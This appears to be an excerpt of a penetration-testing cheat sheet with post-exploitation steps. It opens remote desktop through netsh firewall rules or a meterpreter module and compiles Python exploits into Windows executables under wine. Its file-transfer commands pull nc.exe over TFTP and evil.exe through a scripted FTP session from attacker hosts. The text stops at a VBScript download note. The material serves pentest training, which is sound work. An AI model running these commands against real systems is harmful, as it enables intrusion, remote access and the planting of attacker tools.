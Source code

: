 netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the
Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes
profile=private,domain localport=3389 protocol=tcp

netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (UDP-In)" dir=in action=allow
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the
Remote Desktop service to allow RDP traffic. [UDP 3389] added by LogicDaemon's script" enable=yes
profile=private,domain localport=3389 protocol=udp

OR (meterpreter)

run post/windows/manage/enable_rdp

https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
Python exploits
Compiling Python Exploits for Windows on Linux

   install pyinstaller of windows with wine on Kali and then

   wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py

   run `pyinstaller` located under the same directory as Python scripts

   wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile HelloWorld.py

   Execute with wine

   wine ~/.wine/drive_c/dist/HelloWorld.exe

File Transfers
limit commands on shell to be non-interactive
https://blog.netspi.com/15-ways-to-download-a-file/
TFTP
Windows XP and Win 2003 contain tftp client. Windows 7 do not by default
tfpt clients are usually non-interactive, so they could work through an obtained shell

atftpd --daemon --port 69 /tftp

Windows> tftp -i 192.168.30.45 GET nc.exe

FTP
Windows contain FTP client but they are usually interactive
Solution: scripted parameters in ftp client: ftp -s
ftp-commands

echo open 192.168.30.5 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt

VBScript
wget-vbs script echo trick again, copy paste the commands in the shell

